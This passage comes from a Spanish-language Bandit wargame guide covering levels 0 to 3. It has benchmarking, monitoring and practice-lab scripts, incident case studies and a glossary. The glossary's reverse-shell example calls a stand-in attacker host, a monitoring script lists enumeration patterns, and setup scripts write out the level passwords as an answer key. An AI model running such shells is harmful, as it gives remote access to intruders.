  Enumeration: ★★★★☆
  Exploitation: ★★★★☆
  Complexity: ★★☆☆☆
  Learning Value: ★★★★★

Level 2 - Spaces in Filenames:
  Reconnaissance: ★★★☆☆
  Enumeration: ★★★★☆
  Exploitation: ★★★★☆
  Complexity: ★★★☆☆
  Learning Value: ★★★★☆

Level 3 - Hidden Files:
  Reconnaissance: ★★★★☆
  Enumeration: ★★★★★
  Exploitation: ★★★☆☆
  Complexity: ★★★☆☆
  Learning Value: ★★★★★
```

### 🔍 Benchmarking de Técnicas

#### Velocidad de Ejecución
```bash
#!/bin/bash
# benchmark_techniques.sh - Benchmark different approaches

benchmark_file_access() {
    local target="$1"
    echo "=== BENCHMARKING FILE ACCESS METHODS ==="
    echo "Target: $target"
    echo
    
    # Test cat
    echo "Testing cat:"
    time (for i in {1..100}; do cat "$target" >/dev/null 2>&1; done)
    echo
    
    # Test head
    echo "Testing head:"
    time (for i in {1..100}; do head "$target" >/dev/null 2>&1; done)
    echo
    
    # Test less
    echo "Testing less (first line only):"
    time (for i in {1..100}; do echo q | less "$target" >/dev/null 2>&1; done)
    echo
    
    # Test python
    echo "Testing Python3:"
    time (for i in {1..100}; do python3 -c "print(open('$target').read())" >/dev/null 2>&1; done)
    echo
}

# Memory usage analysis
memory_analysis() {
    local target="$1"
    echo "=== MEMORY USAGE ANALYSIS ==="
    
    echo "Method 1 - cat:"
    /usr/bin/time -v cat "$target" 2>&1 | grep "Maximum resident set size"
    
    echo "Method 2 - python3:"
    /usr/bin/time -v python3 -c "print(open('$target').read())" 2>&1 | grep "Maximum resident set size"
    
    echo "Method 3 - head:"
    /usr/bin/time -v head "$target" 2>&1 | grep "Maximum resident set size"
}
```

### 📈 Métricas de Éxito

#### KPIs (Key Performance Indicators)
```yaml
Technical Metrics:
  - Time to Discovery: < 5 minutes per level
  - Method Diversity: 3+ different approaches per challenge
  - Error Rate: < 10% failed attempts
  - Tool Utilization: 5+ different tools per level

Educational Metrics:
  - Concept Understanding: Demonstrated through multiple solutions
  - Transferable Skills: Application to real-world scenarios
  - Documentation Quality: Comprehensive writeups
  - Troubleshooting Ability: Recovery from failed attempts

Security Metrics:
  - Attack Vector Identification: Complete enumeration
  - Bypass Technique Mastery: Multiple working solutions
  - Defensive Thinking: Understanding of protections
  - Forensic Skills: Evidence gathering and analysis
```

---

## 🛡️ CONTRAMEDIDAS Y DEFENSAS

### 🔒 Análisis de Controles de Seguridad

#### Nivel 0 - Controles Básicos
```yaml
Current Controls:
  - User separation (bandit0 → bandit1)
  - File ownership restrictions
  - Basic permission model

Recommended Enhancements:
  - File integrity monitoring
  - Access logging
  - Automated rotation of credentials
  - Honeypot files for detection

Implementation:
  - auditd for file access logging
  - AIDE for integrity checking
  - Fail2ban for brute force protection
```

#### Nivel 1 - Protección contra Nombres Especiales
```yaml
Current Controls:
  - Filename restrictions (none)
  - Path validation (minimal)

Recommended Enhancements:
  - Input validation for filenames
  - Whitelist of allowed characters
  - Automatic sanitization
  - Warning systems for special names

Implementation:
  - Custom bash functions for safe file access
  - Application-level input validation
  - File naming policies
  - Developer training on secure coding
```

#### Nivel 2 - Manejo de Espacios y Caracteres
```yaml
Current Controls:
  - Standard filesystem permissions
  - No input sanitization

Recommended Enhancements:
  - Filename normalization
  - Automatic escaping in scripts
  - Input validation frameworks
  - Safe file handling libraries

Implementation:
  - Use of arrays in bash scripts
  - Proper quoting in all operations
  - Input validation functions
  - Code review processes
```

#### Nivel 3 - Protección contra Archivos Ocultos
```yaml
Current Controls:
  - Standard hidden file behavior
  - Directory permissions

Recommended Enhancements:
  - Extended attributes for true hiding
  - Encryption of sensitive files
  - Access control lists (ACLs)
  - File system monitoring

Implementation:
  - setfattr/getfattr for extended attributes
  - GPG encryption for sensitive data
  - inotify for real-time monitoring
  - SELinux/AppArmor for mandatory access control
```

### 🔧 Herramientas de Defensa

#### Script de Detección de Actividades Sospechosas
```bash
#!/bin/bash
# security_monitor.sh - Monitor for suspicious activities

monitor_file_access() {
    echo "=== FILE ACCESS MONITORING ==="
    
    # Monitor unusual file access patterns
    echo "Monitoring file access patterns..."
    
    # Check for rapid file enumeration
    netstat -an | grep :22 | wc -l | while read connections; do
        if [[ $connections -gt 10 ]]; then
            echo "ALERT: High number of SSH connections: $connections"
        fi
    done
    
    # Monitor for access to files with special names
    inotify-wait -m -r -e access,open --format '%w%f %e' . | while read file event; do
        case "$file" in
            *"-"*|*"..."*|*" "*) 
                echo "ALERT: Access to special filename: $file ($event)"
                ;;
        esac
    done &
    
    # Monitor for bulk file enumeration
    last | grep "bandit" | head -10 | while read line; do
        echo "Recent access: $line"
    done
}

detect_enumeration_tools() {
    echo "=== ENUMERATION TOOL DETECTION ==="
    
    # Common enumeration patterns in command history
    if [[ -f ~/.bash_history ]]; then
        suspicious_commands=(
            "find.*-name"
            "ls.*-la"
            "cat.*\.\./.*"
            "strings"
            "xxd"
            "hexdump"
        )
        
        for pattern in "${suspicious_commands[@]}"; do
            count=$(grep -c "$pattern" ~/.bash_history 2>/dev/null || echo 0)
            if [[ $count -gt 5 ]]; then
                echo "ALERT: Frequent use of enumeration pattern: $pattern ($count times)"
            fi
        done
    fi
}

generate_security_report() {
    echo "=== SECURITY ASSESSMENT REPORT ==="
    echo "Generated: $(date)"
    echo
    
    echo "File System Analysis:"
    find . -type f -name ".*" | wc -l | xargs echo "Hidden files count:"
    find . -type f -name "*-*" | wc -l | xargs echo "Files with hyphens:"
    find . -type f -name "* *" | wc -l | xargs echo "Files with spaces:"
    
    echo
    echo "Permission Analysis:"
    find . -type f -perm /o+r | wc -l | xargs echo "World-readable files:"
    find . -type f -perm /o+w | wc -l | xargs echo "World-writable files:"
    find . -type f -perm /o+x | wc -l | xargs echo "World-executable files:"
    
    echo
    echo "Recommendations:"
    echo "1. Implement file access logging"
    echo "2. Add input validation for filenames"
    echo "3. Use proper quoting in all scripts"
    echo "4. Monitor for bulk enumeration activities"
    echo "5. Implement rate limiting for file access"
}

# Execute monitoring functions
monitor_file_access &
MONITOR_PID=$!

detect_enumeration_tools
generate_security_report

# Cleanup
kill $MONITOR_PID 2>/dev/null
```

---

## 🎓 MATERIAL EDUCATIVO AVANZADO

### 📚 Conceptos Teóricos Profundos

#### Teoría de Sistemas de Archivos Unix
```markdown
## Estructura Jerárquica de Archivos Unix

### Componentes Fundamentales:
1. **Inodos (Index Nodes)**
   - Estructura de datos que almacena metadatos
   - Contiene: permisos, timestamps, tamaño, punteros a bloques
   - Comando de análisis: `stat`, `ls -i`

2. **Directorios como Archivos Especiales**
   - Los directorios son archivos que contienen referencias
   - Mapeo de nombres a números de inodo
   - Comandos: `ls -la`, `find`, `tree`

3. **Enlaces Duros y Simbólicos**
   - Hard links: múltiples nombres para el mismo inodo
   - Soft links: archivos que apuntan a otros archivos
   - Detección: `ls -la`, `find -type l`

### Atributos Especiales:
- **Archivos Ocultos**: Comienzan con '.' (dot files)
- **Permisos Especiales**: setuid, setgid, sticky bit
- **Atributos Extendidos**: metadata adicional del filesystem
```

#### Modelo de Seguridad DAC (Discretionary Access Control)
```markdown
## Análisis del Modelo de Permisos Unix

### Matriz de Permisos:
```
| Usuario | Grupo | Otros | Significado      |
|---------|-------|-------|------------------|
| r--     | ---   | ---   | Solo owner lee   |
| rw-     | r--   | ---   | Owner RW, grupo R|
| rwx     | r-x   | r-x   | Ejecutable común |
| rws     | r-x   | r-x   | Con setuid       |
```

### Algoritmo de Resolución:
1. ¿El usuario es el propietario? → Usar permisos de usuario
2. ¿El usuario pertenece al grupo? → Usar permisos de grupo  
3. Caso contrario → Usar permisos de otros

### Bypass Techniques:
- Cambio de contexto de usuario (su, sudo)
- Explotación de permisos especiales
- Race conditions en filesystem
- Symbolic link attacks
```

### 🧪 Laboratorios Virtuales

#### Entorno de Práctica Local
```bash
#!/bin/bash
# create_practice_env.sh - Crear entorno de práctica local

create_bandit_practice() {
    echo "=== CREATING BANDIT PRACTICE ENVIRONMENT ==="
    
    # Create directory structure
    mkdir -p ~/bandit_practice/{level0,level1,level2,level3}
    cd ~/bandit_practice
    
    # Level 0 setup
    cd level0
    echo "NH2SXQwcBdpmTEzi3bvBHMM9H66vVXjL" > readme
    echo "Level 0 setup complete"
    
    # Level 1 setup  
    cd ../level1
    echo "rRGizSaX8Mk1RTb1CNQoXTcYZWU6lgzi" > ./-
    echo "Level 1 setup complete"
    
    # Level 2 setup
    cd ../level2
    echo "aBZ0W5EmUfAf7kHTQeOwd8bauFJ2lAiG" > "spaces in this filename"
    echo "Level 2 setup complete"
    
    # Level 3 setup
    cd ../level3
    mkdir inhere
    echo "2EW7BBsr6aMMoJ2HjW067dm8EgX26xNe" > inhere/...Hiding-From-You
    echo "Level 3 setup complete"
    
    cd ~/bandit_practice
    echo "Practice environment created in ~/bandit_practice"
    echo "Test your skills locally before attempting the real challenges!"
}

create_advanced_challenges() {
    echo "=== CREATING ADVANCED PRACTICE CHALLENGES ==="
    
    mkdir -p ~/bandit_advanced
    cd ~/bandit_advanced
    
    # Challenge 1: Multiple special characters
    echo "flag{multiple_special_chars}" > "./--.hidden --file"
    
    # Challenge 2: Deeply nested hidden files
    mkdir -p deep/deeper/deepest/.hidden
    echo "flag{nested_discovery}" > deep/deeper/deepest/.hidden/...secret
    
    # Challenge 3: Binary data with embedded text
    echo -en '\x00\x01\x02flag{binary_embedded}\x03\x04\x05' > binary_file
    
    # Challenge 4: Symbolic link maze
    mkdir -p maze/{a,b,c}
    echo "flag{link_resolution}" > maze/c/target
    ln -s ../c/target maze/a/link1
    ln -s ../a/link1 maze/b/link2  
    ln -s maze/b/link2 final_link
    
    # Challenge 5: Permission puzzle
    echo "flag{permission_escalation}" > restricted_file
    chmod 000 restricted_file
    # Note: This requires understanding of file recovery techniques
    
    echo "Advanced challenges created!"
    echo "Try to solve these using the techniques learned from Bandit!"
}

# Execute setup
create_bandit_practice
create_advanced_challenges
```

### 📖 Casos de Estudio Reales

#### Caso 1: Incident Response - Hidden Malware
```markdown
## Scenario: Malware Detection Using Bandit Techniques

### Background:
Un servidor Linux fue comprometido y se sospecha que hay malware oculto.
El atacante utilizó técnicas similares a las de Bandit para ocultar archivos.

### Investigation Steps:
1. **Comprehensive Enumeration**
   ```bash
   find / -name ".*" -type f 2>/dev/null | grep -v "/proc\|/sys"
   ls -la /tmp /var/tmp /dev/shm
   find / -name "* *" -type f 2>/dev/null
   ```

2. **Timeline Analysis**
   ```bash
   find / -newermt "2024-01-01" -type f 2>/dev/null
   find / -mtime -7 -type f 2>/dev/null | head -50
   ```

3. **Unusual File Detection**
   ```bash
   find / -name "...*" -o -name "*-*-*" 2>/dev/null
   find / -type f -size +10M -name ".*" 2>/dev/null
   ```

### Findings:
- Malware oculto en `/tmp/...system-update`
- Backdoor en `/var/lib/.../--system`
- Config files en `/etc/...hidden/config`

### Lessons Applied from Bandit:
- Importancia de la enumeración exhaustiva
- Técnicas de búsqueda de archivos ocultos
- Manejo de nombres de archivos especiales
```

#### Caso 2: Data Exfiltration Investigation
```markdown
## Scenario: Insider Threat Data Theft

### Background:
Un empleado interno extrajo datos confidenciales ocultándolos
usando técnicas de naming conventions complejas.

### Detection Method:
```bash
# Buscar archivos con patrones sospechosos
find /home -name "*backup*" -o -name "*temp*" 2>/dev/null
find /home -name "* *" -type f -size +1M 2>/dev/null  
find /home -name ".*" -type f -newermt "2024-01-01" 2>/dev/null

# Análisis de contenido
for file in $(find /home -name ".*" -type f); do
    if strings "$file" | grep -qi "confidential\|secret\|private"; then
        echo "Suspicious file: $file"
    fi
done
```

### Prevention Strategies:
- File integrity monitoring (FIM)
- Data loss prevention (DLP) systems
- User behavior analytics (UBA)
- Regular access audits
```

---

## 🔮 PERSPECTIVAS FUTURAS Y EVOLUCIÓN

### 🚀 Tendencias en CTF y Wargames

#### Nuevas Técnicas de Ocultación
```yaml
Container Security:
  - Docker layer analysis
  - Kubernetes secrets management  
  - Container escape techniques
  - Registry security

Cloud Security:
  - S3 bucket enumeration
  - IAM role exploitation
  - Serverless security
  - Multi-cloud environments

IoT and Embedded:
  - Firmware analysis
  - Hardware debugging
  - Protocol fuzzing
  - Side-channel attacks

AI/ML Security:
  - Model poisoning
  - Adversarial examples
  - Data extraction attacks
  - Privacy-preserving ML
```

### 📈 Roadmap de Aprendizaje Avanzado

#### Nivel Intermedio (Post-Bandit)
```markdown
1. **OverTheWire - Natas** (Web Security)
2. **OverTheWire - Leviathan** (Binary Exploitation)
3. **PicoCTF** (General CTF Skills)
4. **TryHackMe** (Practical Penetration Testing)
5. **HackTheBox** (Advanced Exploitation)
```

#### Nivel Avanzado
```markdown
1. **OSCP Preparation**
2. **Binary Exploitation (ROP, Heap)**
3. **Reverse Engineering**
4. **Malware Analysis**
5. **Red Team Operations**
```

### 🎯 Certificaciones Relevantes

#### Entry Level
- **CompTIA Security+**
- **CEH (Certified Ethical Hacker)**
- **GSEC (GIAC Security Essentials)**

#### Advanced Level
- **OSCP (Offensive Security Certified Professional)**
- **CISSP (Certified Information Systems Security Professional)**
- **CISM (Certified Information Security Manager)**

---

## 🛠️ HERRAMIENTAS Y RECURSOS ADICIONALES

### 📱 Aplicaciones Mobile para Práctica

#### Termux (Android)
```bash
# Instalación de herramientas esenciales
pkg update && pkg upgrade
pkg install openssh python3 git vim nano
pkg install nmap netcat-openbsd curl wget

# Recrear challenges localmente
git clone https://github.com/overthewire/wargames.git
```

#### iSH (iOS)
```bash
# Setup básico para práctica
apk update
apk add openssh-client python3 git vim
apk add findutils coreutils grep

# Práctica offline
mkdir bandit_practice
cd bandit_practice
# Seguir los scripts de práctica anteriores
```

### 🖥️ Entornos de Virtualización

#### Docker Setup
```dockerfile
# Dockerfile para entorno de práctica
FROM ubuntu:20.04

RUN apt-get update && apt-get install -y \
    openssh-client \
    vim \
    nano \
    python3 \
    python3-pip \
    git \
    netcat \
    nmap \
    tree \
    file \
    xxd

WORKDIR /practice
COPY setup_challenges.sh .
RUN chmod +x setup_challenges.sh && ./setup_challenges.sh

CMD ["/bin/bash"]
```

#### Vagrant Setup
```ruby
# Vagrantfile para entorno completo
Vagrant.configure("2") do |config|
  config.vm.box = "ubuntu/20.04"
  
  config.vm.provision "shell", inline: <<-SHELL
    apt-get update
    apt-get install -y openssh-server python3 git vim
    
    # Create bandit user accounts
    for i in {0..5}; do
      useradd -m -s /bin/bash bandit$i
      echo "bandit$i:bandit$i" | chpasswd
    done
    
    # Setup challenges
    sudo -u bandit0 bash -c 'echo "NH2SXQwcBdpmTEzi3bvBHMM9H66vVXjL" > /home/bandit0/readme'
    sudo -u bandit1 bash -c 'echo "rRGizSaX8Mk1RTb1CNQoXTcYZWU6lgzi" > "/home/bandit1/-"'
  SHELL
end
```

---

## 📞 CONTACTO Y CONTRIBUCIONES

### 🤝 Cómo Contribuir

#### Guidelines para Contribuciones
```markdown
## Contribution Guidelines

### Tipos de Contribuciones Bienvenidas:
1. **Nuevas técnicas de resolución**
   - Métodos alternativos para cada nivel
   - Scripts de automatización mejorados
   - Optimizaciones de performance

2. **Documentación mejorada**
   - Traducciones a otros idiomas
   - Explicaciones más detalladas
   - Diagramas y visualizaciones

3. **Herramientas adicionales**
   - Scripts de práctica
   - Entornos de laboratorio
   - Validadores automáticos

### Proceso de Contribución:
1. Fork del repositorio
2. Crear branch feature (`git checkout -b feature/nueva-tecnica`)
3. Commit de cambios (`git commit -am 'Añadir nueva técnica'`)
4. Push al branch (`git push origin feature/nueva-tecnica`)
5. Crear Pull Request
```

### 📧 Información de Contacto
```yaml
Maintainer: [Tu Nombre]
Email: [tu-email@ejemplo.com]
GitHub: [tu-usuario]
LinkedIn: [tu-perfil]

Community Resources:
  - Discord: [Servidor de la comunidad]
  - Telegram: [Canal de updates]
  - Reddit: r/cybersecurity, r/netsec
  - Stack Overflow: [bandit-wargame] tag
```

---

## 📊 APÉNDICES

### 📋 Apéndice A: Tabla de Referencia Rápida

#### Comandos Esenciales por Categoría
```yaml
File Operations:
  Read: "cat, head, tail, less, more, strings"
  Info: "file, stat, ls, find, locate"
  Search: "grep, awk, sed, sort, uniq"
  
Network:
  SSH: "ssh user@host -p port"
  Transfer: "scp, rsync, nc"
  Analysis: "nmap, netstat, ss"

System:
  Info: "uname, whoami, id, pwd, env"
  Process: "ps, top, htop, jobs, kill"
  Permissions: "chmod, chown, umask, getfacl"

Text Processing:
  Manipulation: "tr, cut, paste, join"
  Encoding: "base64, xxd, od, hexdump"
  Hashing: "md5sum, sha1sum, sha256sum"
```

#### Patrones de Nombres de Archivos Problemáticos
```yaml
Special Characters:
  Hyphen: "-", "--", "---"
  Spaces: "file name", "spaces in filename"
  Dots: ".", "..", "...", "...hidden"
  
Combinations:
  Mixed: "./-hidden file"
  Multiple: "...--special file--..."
  Unicode: "file with ñ and é"
  
Solutions:
  Quotes: '"filename"', "'filename'"
  Escape: "file\ name", "\-\-file"
  Path: "./filename", "/full/path/filename"
```

### 📋 Apéndice B: Scripts de Utilidad

#### Script de Backup y Documentación
```bash
#!/bin/bash
# bandit_session_logger.sh - Log sessions for learning

LOGDIR="$HOME/bandit_logs"
LEVEL="$1"
TIMESTAMP=$(date +"%Y%m%d_%H%M%S")
LOGFILE="$LOGDIR/bandit_level${LEVEL}_${TIMESTAMP}.log"

# Create log directory
mkdir -p "$LOGDIR"

# Function to log commands and outputs
log_session() {
    echo "=== BANDIT LEVEL $LEVEL SESSION ===" | tee "$LOGFILE"
    echo "Timestamp: $(date)" | tee -a "$LOGFILE"
    echo "Host: $(hostname)" | tee -a "$LOGFILE"
    echo "User: $(whoami)" | tee -a "$LOGFILE"
    echo "Working Directory: $(pwd)" | tee -a "$LOGFILE"
    echo "========================================" | tee -a "$LOGFILE"
    echo
    
    # Start logging shell session
    script -a "$LOGFILE"
}

# Function to analyze session logs
analyze_session() {
    local logfile="$1"
    echo "=== SESSION ANALYSIS ==="
    echo "Commands used:"
    grep -E "^\$ |^\# " "$logfile" | sort | uniq -c | sort -nr
    
    echo
    echo "Files accessed:"
    grep -E "(cat |head |tail |less |more )" "$logfile" | \
    sed -E 's/.*\b(cat|head|tail|less|more)\s+([^\s]+).*/\2/' | \
    sort | uniq
    
    echo
    echo "Errors encountered:"
    grep -i "error\|failed\|permission denied\|no such file" "$logfile"
}

# Function to generate learning report
generate_report() {
    local level="$1"
    local logfile="$2"
    
    cat << EOF > "${LOGDIR}/level${level}_report.md"
# Bandit Level $level - Learning Report

## Session Information
- **Date**: $(date)
- **Duration**: [Manual input required]
- **Success**: [✓/✗]

## Techniques Used
$(grep -E "^\$ " "$logfile" | head -10)

## Key Learnings
- [Add key concepts learned]
- [Add challenges faced]
- [Add solutions discovered]

## Commands Mastered
$(analyze_session "$logfile" | head -20)

## Next Steps
- Review alternative methods
- Practice similar challenges
- Document edge cases discovered

EOF

    echo "Report generated: ${LOGDIR}/level${level}_report.md"
}

# Main execution
case "$2" in
    "start")
        log_session
        ;;
    "analyze")
        analyze_session "$LOGFILE"
        ;;
    "report")
        generate_report "$LEVEL" "$LOGFILE"
        ;;
    *)
        echo "Usage: $0 <level> [start|analyze|report]"
        echo "Example: $0 3 start"
        ;;
esac
```

#### Script de Validación de Soluciones
```bash
#!/bin/bash
# solution_validator.sh - Validate multiple solution approaches

validate_level() {
    local level="$1"
    local expected_flag="$2"
    
    echo "=== VALIDATING LEVEL $level SOLUTIONS ==="
    
    case "$level" in
        0)
            validate_level_0 "$expected_flag"
            ;;
        1)
            validate_level_1 "$expected_flag"
            ;;
        2) 
            validate_level_2 "$expected_flag"
            ;;
        3)
            validate_level_3 "$expected_flag"
            ;;
        *)
            echo "Level $level not implemented yet"
            ;;
    esac
}

validate_level_0() {
    local expected="$1"
    echo "Testing Level 0 methods..."
    
    methods=(
        "cat readme"
        "head readme"
        "tail readme"
        "less readme"
        "python3 -c \"print(open('readme').read())\""
    )
    
    for method in "${methods[@]}"; do
        echo -n "Testing: $method ... "
        result=$(eval "$method" 2>/dev/null | tr -d '\n')
        if [[ "$result" == "$expected" ]]; then
            echo "✓ PASS"
        else
            echo "✗ FAIL (got: $result)"
        fi
    done
}

validate_level_1() {
    local expected="$1" 
    echo "Testing Level 1 methods..."
    
    methods=(
        "cat ./-"
        "head ./-" 
        "cat \$(pwd)/-"
        "python3 -c \"print(open('./-').read())\""
        "awk '{print}' ./-"
    )
    
    for method in "${methods[@]}"; do
        echo -n "Testing: $method ... "
        result=$(eval "$method" 2>/dev/null | tr -d '\n')
        if [[ "$result" == "$expected" ]]; then
            echo "✓ PASS"
        else
            echo "✗ FAIL (got: $result)"
        fi
    done
}

validate_level_2() {
    local expected="$1"
    echo "Testing Level 2 methods..."
    
    methods=(
        "cat \"spaces in this filename\""
        "cat 'spaces in this filename'"
        "cat spaces\\ in\\ this\\ filename"
        "head \"spaces in this filename\""
    )
    
    for method in "${methods[@]}"; do
        echo -n "Testing: $method ... "
        result=$(eval "$method" 2>/dev/null | tr -d '\n')
        if [[ "$result" == "$expected" ]]; then
            echo "✓ PASS"
        else
            echo "✗ FAIL (got: $result)"
        fi
    done
}

validate_level_3() {
    local expected="$1"
    echo "Testing Level 3 methods..."
    
    methods=(
        "cat inhere/...Hiding-From-You"
        "head inhere/...Hiding-From-You"
        "find inhere/ -name \".*\" -exec cat {} \\;"
        "ls -la inhere/ | grep -E \"^-\" | awk '{print \$NF}' | xargs -I {} cat inhere/{}"
    )
    
    for method in "${methods[@]}"; do
        echo -n "Testing: $method ... "
        result=$(eval "$method" 2>/dev/null | tr -d '\n')
        if [[ "$result" == "$expected" ]]; then
            echo "✓ PASS"
        else
            echo "✗ FAIL (got: $result)"
        fi
    done
}

# Performance benchmarking
benchmark_solutions() {
    local level="$1"
    echo "=== PERFORMANCE BENCHMARKING ==="
    
    case "$level" in
        0)
            echo "Benchmarking Level 0..."
            time cat readme >/dev/null
            time python3 -c "print(open('readme').read())" >/dev/null
            time head readme >/dev/null
            ;;
        1)
            echo "Benchmarking Level 1..."
            time cat ./- >/dev/null
            time head ./- >/dev/null
            time python3 -c "print(open('./-').read())" >/dev/null
            ;;
    esac
}

# Usage
if [[ $# -lt 2 ]]; then
    echo "Usage: $0 <level> <expected_flag> [benchmark]"
    echo "Example: $0 0 'NH2SXQwcBdpmTEzi3bvBHMM9H66vVXjL'"
    exit 1
fi

validate_level "$1" "$2"

if [[ "$3" == "benchmark" ]]; then
    benchmark_solutions "$1"
fi
```

### 📋 Apéndice C: Recursos de Aprendizaje

#### Libros Recomendados
```yaml
Beginner Level:
  - "The Linux Command Line" by William Shotts
  - "Linux Basics for Hackers" by OccupyTheWeb  
  - "Practical Linux Forensics" by Bruce Nikkel

Intermediate Level:
  - "Hacking: The Art of Exploitation" by Jon Erickson
  - "The Shellcoder's Handbook" by Chris Anley
  - "Red Team Field Manual" by Ben Clark

Advanced Level:
  - "Advanced Penetration Testing" by Wil Allsopp
  - "The Hacker Playbook 3" by Peter Kim
  - "Operator Handbook" by Joshua Picolet
```

#### Plataformas de Práctica Online
```yaml
Free Platforms:
  - OverTheWire: "Multiple wargames (Bandit, Natas, etc.)"
  - PicoCTF: "Annual CTF with permanent challenges"
  - TryHackMe: "Free rooms and learning paths"
  - VulnHub: "Vulnerable VMs for practice"

Paid Platforms:
  - HackTheBox: "Professional penetration testing practice"
  - Pentester Academy: "Structured courses and labs"
  - Cybrary: "Comprehensive cybersecurity training"
  - Pluralsight: "Technology skills development"
```

#### Comunidades y Foros
```yaml
Discord Servers:
  - InfoSec Community
  - HackTheBox Official
  - TryHackMe Community
  - CTF Time

Reddit Communities:
  - r/cybersecurity
  - r/netsec  
  - r/HowToHack
  - r/AskNetsec

Professional Networks:
  - ISACA
  - (ISC)² 
  - SANS Community
  - OWASP Local Chapters
```

### 📋 Apéndice D: Troubleshooting Guide

#### Problemas Comunes y Soluciones

##### Error: "Permission denied"
```bash
# Diagnóstico
ls -la filename
stat filename
whoami
groups

# Soluciones posibles
sudo cat filename          # Si tienes privilegios sudo
find . -readable -name "*" # Buscar archivos legibles
chmod +r filename          # Si eres propietario
```

##### Error: "No such file or directory"
```bash
# Diagnóstico
pwd                        # Verificar directorio actual
ls -la                     # Listar contenido completo
find . -name "*partial*"   # Búsqueda por patrón parcial

# Soluciones
cd correct/directory       # Cambiar al directorio correcto
ls -la | grep filename    # Verificar nombre exacto
find / -name "filename" 2>/dev/null  # Búsqueda global
```

##### Error: "Command not found"
```bash
# Diagnóstico  
which command_name         # Verificar si está instalado
echo $PATH                 # Verificar PATH
type command_name          # Información del comando

# Soluciones
/usr/bin/command_name      # Usar ruta completa
apt install package_name   # Instalar paquete (si es posible)
find /usr -name "*command*" -type f  # Buscar comando
```

##### Problemas con Caracteres Especiales
```bash
# Diagnóstico
ls -la | cat -v            # Mostrar caracteres no imprimibles
printf '%q\n' filename     # Shell quoting format
od -c filename             # Análisis octal

# Soluciones
cat "./problematic-file"   # Usar ruta relativa
cat "file with spaces"     # Usar comillas dobles
cat 'file with spaces'     # Usar comillas simples
cat file\ with\ spaces    # Escapar espacios
```

### 📋 Apéndice E: Glosario

#### Términos Técnicos
```yaml
Access Control List (ACL):
  Definición: "Lista de permisos asociados con un objeto del sistema"
  Ejemplo: "getfacl filename"
  Contexto: "Usado en sistemas de archivos avanzados"

Banner Grabbing:
  Definición: "Técnica para obtener información sobre servicios"
  Ejemplo: "netcat host puerto"
  Contexto: "Reconnaissance en pentesting"

Enumeration:
  Definición: "Proceso de extraer información detallada de sistemas"
  Ejemplo: "ls -la, find, nmap"
  Contexto: "Fase crucial en pentesting"

Fingerprinting:
  Definición: "Identificación de sistemas, servicios o aplicaciones"
  Ejemplo: "nmap -sV, nmap -O"
  Contexto: "Reconnaissance avanzado"

Privilege Escalation:
  Definición: "Obtención de permisos superiores a los asignados"
  Ejemplo: "sudo, SUID binaries, kernel exploits"
  Contexto: "Post-exploitation"

Reconnaissance:
  Definición: "Recopilación de información sobre el objetivo"
  Ejemplo: "nmap, whois, DNS enumeration"
  Contexto: "Primera fase del pentesting"

Reverse Shell:
  Definición: "Conexión shell que se inicia desde el objetivo"
  Ejemplo: "nc -e /bin/bash attacker_ip port"
  Contexto: "Maintaining access"

Social Engineering:
  Definición: "Manipulación de personas para obtener información"
  Ejemplo: "Phishing, pretexting, baiting"
  Contexto: "Human factor exploitation"
```

#### Abreviaciones
```yaml
APT: "Advanced Persistent Threat"
CIA: "Confidentiality, Integrity, Availability"
CTF: "Capture The Flag"
CVE: "Common Vulnerabilities and Exposures"
CVSS: "Common Vulnerability Scoring System"
DAC: "Discretionary Access Control"
IDS: "Intrusion Detection System"
IPS: "Intrusion Prevention System"
MAC: "Mandatory Access Control"
OSINT: "Open Source Intelligence"  
RBAC: "Role-Based Access Control"
SIEM: "Security Information and Event Management"
TTPs: "Tactics, Techniques, and Procedures"
VAPT: "Vulnerability Assessment and Penetration Testing"
```

---

## 🏆 CONCLUSIONES

### 🎯 Competencias Desarrolladas

#### Habilidades Técnicas
```yaml
Linux Fundamentals:
  - Navegación en filesystem (pwd, cd, ls)
  - Manipulación de archivos (cat, head, tail)
  - Búsqueda y enumeración (find, grep, locate)
  - Análisis de permisos (stat, chmod, chown)

Security Concepts:
  - Enumeración sistemática
  - Bypass de controles básicos
  - Análisis forense de archivos
  - Documentación de evidencias

Problem Solving:
  - Pensamiento lateral para bypass
  - Múltiples enfoques para un problema
  - Análisis de causa raíz
  - Validación de soluciones

Professional Skills:
  - Documentación técnica detallada
  - Metodología sistemática
  - Análisis de riesgos
  - Comunicación de hallazgos
```

### 🚀 Roadmap

#### Corto Plazo (1-3 meses)
```markdown
1. **Completar Bandit Completo**
   - Niveles 4-33 con documentación similar
   - Crear scripts de automatización
   - Desarrollar herramientas personalizadas

2. **Expandir a Otros Wargames**
   - OverTheWire Natas (Web Security)
   - OverTheWire Leviathan (Binary)  
   - PicoCTF challenges

3. **Práctica en Laboratorio Local**
   - Configurar entorno de práctica
   - Crear challenges personalizados
   - Desarrollar scripts de validación
```

#### Mediano Plazo (3-6 meses)
```markdown
1. **Certificaciones Entry Level**
   - CompTIA Security+ preparation
   - CEH study materials
   - Hands-on lab practice

2. **Desarrollo de Herramientas**
   - Automatización con Python
   - Scripts de enumeración avanzados
   - Frameworks de testing personalizados

3. **Participación en Comunidad**
   - CTF team participation
   - Writeup contributions
   - Knowledge sharing en foros
```

#### Largo Plazo (6-12 meses)
```markdown
1. **Especialización Profesional**
   - OSCP preparation
   - Bug bounty participation
   - Red team exercises

2. **Contribuciones Open Source**
   - Security tool development
   - Vulnerability research
   - Educational content creation

3. **Carrera en Cybersecurity**
   - Penetration tester role
   - Security analyst position
   - Incident response specialist
```

---

## 📜 TÉRMINOS DE USO

### 📋 Información Legal

```markdown
# License
LIMITED

Copyright (c) 2025 iceyami

```

### ⚖️ Disclaimer Ético

```markdown
## ETHICAL USE DISCLAIMER

### Propósito Educativo
Este material está diseñado exclusivamente para propósitos educativos
y de desarrollo de habilidades en cybersecurity de manera ética.

### Uso Responsable
- ✅ Usar solo en sistemas propios o con autorización explícita
- ✅ Respetar términos de servicio de plataformas de práctica
- ✅ Aplicar conocimientos para defender sistemas
- ✅ Contribuir positivamente a la comunidad de seguridad

### Prohibiciones
- ❌ Usar contra sistemas sin autorización
- ❌ Actividades ilegales o maliciosas  
- ❌ Violación de términos de servicio
- ❌ Daño a sistemas o datos ajenos

### Responsabilidad
El usuario es completamente responsable del uso de este material
y debe cumplir con todas las leyes y regulaciones aplicables.
```

---

## 🙏 AGRADECIMIENTOS

### 👥 Reconocimientos

```markdown
## Contribuidores y Reconocimientos

### Plataforma Base
- **OverTheWire Team**: Creators of the Bandit wargame
- **Linux Community**: Development of tools and techniques
- **Security Researchers**: Contributions to methodologies

### Inspiración y Referencias
